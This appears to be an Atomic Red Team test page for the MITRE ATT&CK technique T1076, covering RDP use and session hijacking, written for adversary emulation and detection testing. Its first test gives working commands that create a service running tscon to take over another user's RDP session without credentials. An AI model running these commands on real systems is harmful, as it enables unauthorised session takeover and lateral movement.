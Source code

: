# T1076 - Remote Desktop Protocol
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1076)
<blockquote>Remote desktop is a common feature in operating systems. It allows a user to log into an interactive session with a system desktop graphical user interface on a remote system. Microsoft refers to its implementation of the Remote Desktop Protocol (RDP) as Remote Desktop Services (RDS). (Citation: TechNet Remote Desktop Services) There are other implementations and third-party tools that provide graphical access [Remote Services](https://attack.mitre.org/techniques/T1021) similar to RDS.

Adversaries may connect to a remote system over RDP/RDS to expand access if the service is enabled and allows access to accounts with known credentials. Adversaries will likely use Credential Access techniques to acquire credentials to use with RDP. Adversaries may also use RDP in conjunction with the [Accessibility Features](https://attack.mitre.org/techniques/T1015) technique for Persistence. (Citation: Alperovitch Malware)

Adversaries may also perform RDP session hijacking which involves stealing a legitimate user's remote session. Typically, a user is notified when someone else is trying to steal their session and prompted with a question. With System permissions and using Terminal Services Console, <code>c:\windows\system32\tscon.exe [session number to be stolen]</code>, an adversary can hijack a session without the need for credentials or prompts to the user. (Citation: RDP Hijacking Korznikov) This can be done remotely or locally and with active or disconnected sessions. (Citation: RDP Hijacking Medium) It can also lead to [Remote System Discovery](https://attack.mitre.org/techniques/T1018) and Privilege Escalation by stealing a Domain Admin or higher privileged account session. All of this can be done by using native Windows commands, but it has also been added as a feature in RedSnarf. (Citation: Kali Redsnarf)</blockquote>

## Atomic Tests

- [Atomic Test #1 - RDP](#atomic-test-1---rdp)

- [Atomic Test #2 - RDPto-DomainController](#atomic-test-2---rdpto-domaincontroller)


<br/>

## Atomic Test #1 - RDP
RDP hijacking](https://medium.com/@networksecurity/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6) - how to hijack RDS and RemoteApp sessions transparently to move through an organization

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
query user
sc.exe create sesshijack binpath= "cmd.exe /k tscon 1337 /dest:rdp-tcp#55"
net start sesshijack
```

#### Cleanup Commands:
```cmd
sc.exe delete sesshijack >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - RDPto-DomainController
Attempt an RDP session via "Connect-RDP" to a system. Default RDPs to (%logonserver%) as the current user

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| logonserver | ComputerName argument default %logonserver% | String | $ENV:logonserver.TrimStart("&#92;")|
| username | Username argument default %USERDOMAIN%&#92;%username% | String | $Env:USERDOMAIN&#92;$ENV:USERNAME|


#### Attack Commands: Run with `powershell`! 


```powershell
Connect-RDP -ComputerName #{logonserver} -User #{username}
```




#### Dependencies:  Run with `powershell`!
##### Description: Computer must be domain joined
##### Check Prereq Commands:
```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) { exit 0} else { exit 1} 
```
##### Get Prereq Commands:
```powershell
Write-Host Joining this computer to a domain must be done manually
```




<br/>
